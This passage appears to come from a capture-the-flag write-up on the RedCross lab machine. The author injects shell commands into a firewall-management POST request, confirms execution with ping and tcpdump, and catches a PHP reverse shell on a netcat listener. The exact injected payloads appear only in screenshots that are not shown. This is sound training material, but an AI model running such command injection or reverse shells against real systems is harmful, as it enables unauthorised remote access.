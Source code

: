 

#### Injection RCE

I can see the comment "easily executable from admin.redcross.htb", and
two strings I saw on the webpage when I added my IP to the firewall:
"DEBUG: All checks passed... Executing iptables" and "Network access
granted to %s\\n". It seems that this c program is being called when I
hit submit on that page. I see some potential vulnerabilities in the
interactive mode section, but I don't think the webpage would allow me
to get to that area of code. If I think about how the php code is
calling this, I wonder if I can do injection at that point. I could even
have tested that HTTP post for injection without access to this source
code, and skipped most of this path up until now.

I'll find my previous POST request from when I added my IP in Burp (or
create a new one) and send it to repeater. I'll add a simple check to
ping myself, start `tcpdump`, and then send it. Unfortunately, I get an
error:

![](/img/1554226551246.png)

However, if I try the deny action, I get better results:

![](/img/1554226592366.png)

And I see it at `tcpdump`:



    root@kali# tcpdump -i tun0 icmp
    tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
    listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
    13:35:48.819332 IP intra.redcross.htb > kali: ICMP echo request, id 16518, seq 1, length 64
    13:35:48.819376 IP kali > intra.redcross.htb: ICMP echo reply, id 16518, seq 1, length 64



Since I can see output, I can run other commands:

![](/img/1554226655779.png)

And I can get a shell using a `php` rev shell:

![](/img/1554229271639.png)



    root@kali# nc -lnvp 443
    Ncat: Version 7.70 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.113.
    Ncat: Connection from 10.10.10.113:46998.
    /bin/sh: 0: can't access tty; job control turned off
    $ id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
